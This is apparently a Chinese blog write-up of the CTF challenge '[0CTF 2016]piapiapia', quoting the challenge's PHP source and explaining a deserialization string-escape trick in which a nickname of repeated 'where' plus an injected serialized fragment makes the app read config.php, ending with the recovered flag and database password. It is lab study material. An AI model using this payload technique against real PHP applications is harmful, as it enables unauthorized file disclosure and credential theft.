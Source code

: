 ```yaml
---
title: buuoj刷题记录1
date: 2019-12-23 19:44:18
tags: 
 - ctf
 - buuctf
 - web
 - 0CTF
categories: 
 - 刷题记录
---
```


## [0CTF 2016]piapiapia

### 0x00 基础

一般文件的目录又xxx.php.bak/swp，或者查看元素、robots.txt里面有提示，或者`www.zip`等一系列文件中出现网站源码。也可以使用工具扫描

PHP序列化[参考文章](https://www.php.cn/php-notebook-239422.html)

<!--more-->

### 0x01 分析

题中`www.zip`中包含源码，下载~~后进行代码审计（不会）~~翻阅PHP手册，各种百度。在config.php中包含flag，要想办法获取到此文件
config.php

```php
<?php
    $config['hostname'] = '127.0.0.1';
    $config['username'] = 'root';
    $config['password'] = '';
    $config['database'] = '';
    $flag = '';
?>
```
查看index.php

```php
if($user->login($username, $password)) {
			$_SESSION['username'] = $username;
			header('Location: profile.php');//登入后跳转到profile.php
			exit;	
		}
```

查看profile.php

```PHP
<?php   
    require_once('class.php');
if($_SESSION['username'] == null) { 
    die('Login First');
}   
$username = $_SESSION['username'];
$profile=$user->show_profile($username);
if($profile  == null) { 
    header('Location: update.php'); //$profile为空，跳转到update.php
}
else { 
    $profile = unserialize($profile); //一般看见unserialize()会考虑反序列化漏洞，
    $phone = $profile['phone']; 
    $email = $profile['email']; 
    $nickname = $profile['nickname'];
    $photo = base64_encode(file_get_contents($profile['photo']));//file_get_contents()此函数可以获得文件内容
}
?>
```

update.php

```php
if($_POST['phone'] && $_POST['email'] && $_POST['nickname'] && $_FILES['photo']) {

    $username = $_SESSION['username'];
    if(!preg_match('/^\d{11}$/', $_POST['phone']))
        die('Invalid phone');

    if(!preg_match('/^[_a-zA-Z0-9]{1,10}@[_a-zA-Z0-9]{1,10}\.[_a-zA-Z0-9]{1,10}$/', $_POST['email']))
        die('Invalid email');

if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
    die('Invalid nickname');

    $file = $_FILES['photo'];
    if($file['size'] < 5 or $file['size'] > 1000000)
        die('Photo size error');

    move_uploaded_file($file['tmp_name'], 'upload/' . md5($file['name']));
    $profile['phone'] = $_POST['phone'];
    $profile['email'] = $_POST['email'];
    $profile['nickname'] = $_POST['nickname'];
    $profile['photo'] = 'upload/' . md5($file['name']);

    $user->update_profile($username, serialize($profile));//将$profile序列化，执行过滤函数
    echo 'Update Profile Success!<a href="profile.php">Your Profile</a>';
}
```
查看update_profile()函数
```PHP
public function update_profile($username, $new_profile) {
    $username = parent::filter($username);
    $new_profile = parent::filter($new_profile); 
    $where = "username = '$username'"; 
    return parent::update($this->table, 'profile', $new_profile, $where);
}
```
查看filter()函数
```php
public function filter($string) {
    $escape = array('\'', '\\\\'); 
    $escape = '/' . implode('|', $escape) . '/'; 
    $string = preg_replace($escape, '_', $string); //将  “ ‘ ”、 “\\\\” 替换成 “_” 
    $safe = array('select', 'insert', 'update', 'delete', 'where');
    $safe = '/' . implode('|', $safe) . '/i';
    return preg_replace($safe, 'hacker', $string); //将“ select|insert|update|delete|where” 替换成 "hacker"，返回替换后的字符串
}
```

在update_profile()，返回到profile.php.

```php
$profile = unserialize($profile); //反序列化$profile
    $phone = $profile['phone']; 
    $email = $profile['email']; 
    $nickname = $profile['nickname'];
    $photo = base64_encode(file_get_contents($profile['photo']));

```

序列化后

```php
$profile=a:4:{s:5:"phone";s:11:"11111111111";s:5:"email";s:8:"12@12.12";s:8:"nickname";s:4:"1234";s:5:"photo";s:39:"upload/d41d8cd98f00b204e9800998ecf8427e";}
```
要让$photo得到的文件是config.php也就是

```
s:5:"photo";s:39:"upload/d41d8cd98f00b204e9800998ecf8427e";
```
变成 
```
s:5:"photo";s:10:"config.php";
```
序列化后的长度是固定的，但是在经过过滤函数时候，nickname传入where会被替换成hacker,多出一个字符，这样就可以修改反序列化后的photo所对应的文件，使其为config.php。

因为nickname有长度限制使用数组可以绕过

```php
if(preg_match('/[^a-zA-Z0-9_]/', $_POST['nickname']) || strlen($_POST['nickname']) > 10)
    die('Invalid nickname');
```
让nickname的值为`"};s:5:"photo";s:10:"config.php";}`长度为34,传入34个where
### 0x03 开始操作

![1](/pic/1.png) 传入参数

访问profile.php

![2](/pic/2.png)

将base64解码


```php
<?php
$config['hostname'] = '127.0.0.1';
$config['username'] = 'root';
$config['password'] = 'qwertyuiop';
$config['database'] = 'challenges';
$flag = 'flag{94b7c4b2-866d-4189-9b0a-abdf22990071}';
?>
```


